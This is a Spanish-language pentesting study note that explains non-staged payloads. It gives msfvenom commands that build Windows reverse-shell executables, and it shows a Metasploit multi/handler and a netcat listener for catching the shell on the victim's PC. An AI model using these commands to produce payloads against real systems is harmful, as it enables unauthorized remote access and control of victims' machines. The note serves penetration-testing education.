 ___

- Tags: #enumeración  #payload-non-staged #metasploit 

---
# Introducción

En el ámbito de la ciberseguridad y las pruebas de penetración, un "**Payload Non-Staged**" se refiere a un tipo de carga útil maliciosa que se presenta como un bloque único y completo. A diferencia de los [[Payload Staged|payloads staged]], no hay una división en etapas distintas; en su lugar, toda la funcionalidad maliciosa se encuentra en un solo fragmento de código. Este enfoque tiene características específicas que pueden ser beneficiosas en ciertos escenarios.

____
# Características del Payload Non-Staged

1. **Ejecución Instantánea:**

   - Dado que toda la carga útil se encuentra en un solo bloque de código, la ejecución es instantánea una vez que se activa. No hay necesidad de establecer una conexión inicial para descargar una segunda etapa.

2. **Simplicidad:**
   
   - Los **payloads non-staged** son más simples en términos de implementación. No requieren la configuración de una estructura de dos etapas y son más fáciles de entender y modificar.

3. **Detección Potencial:**
   
   - Aunque la simplicidad puede ser una ventaja, también puede ser una desventaja en términos de detección. Al tratarse de un único bloque de código, puede ser más fácilmente detectado por soluciones de seguridad.

___
# Ejemplos de Payload Non-Staged

```bash 
msfvenom -p windows/x64/meterpreter_reverse_tcp --platform windows -a x64 LHOST=ip LPORT=puerto -f exe -o nombre.exe
```

Este comando se utiliza para crear un archivo ejecutable (.exe) que, al ejecutarse, establece una conexión de [[reverse shell]] hacia una dirección [[Dirección IP|IP]] y puerto específicos.

```bash 
msfdb run
```

Este comando inicia el entorno de [[Metasploit Framework]].

```bash 
use exploit/multi/handler
```

Aquí seleccionamos el exploit que se va a utilizar.

```bash 
set payload windows/x64/meterpreter_reverse_tcp
```

Se especifica el payload que se utilizará.

```bash 
set LHOST ip
set LPORT puerto
```

Se establece la dirección [[Dirección IP|IP]] y el puerto del atacante.

```bash 
run 
```

Con este comando, se inicia el listener para esperar la conexión de la [[reverse shell]].

Al ejecutar el archivo .exe en la máquina víctima, se establecerá una conexión y se obtendrá acceso a toda la PC de la víctima.

También es posible lograr esto utilizando [[Netcat]]:

```bash 
msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=ip LPORT=puerto -f exe -o nombre.exe
```

Este comando crea un archivo .exe que, al ejecutarse, establece una conexión de [[reverse shell]] hacia una dirección [[Dirección IP|IP]] y puerto específicos.

```bash 
nc -lvp puerto
```

Al ejecutar el .exe y tener [[Netcat]] en escucha en la máquina atacante, se recibirá una [[reverse shell]] de la máquina víctima.
___

# Consideraciones y Conclusión

Aunque los **payloads non-staged** tienen sus ventajas, es importante considerar el contexto y los objetivos específicos de un ataque. La elección entre un [[payload staged]] y **non-staged** dependerá de la situación y de la necesidad de evadir sistemas de detección.

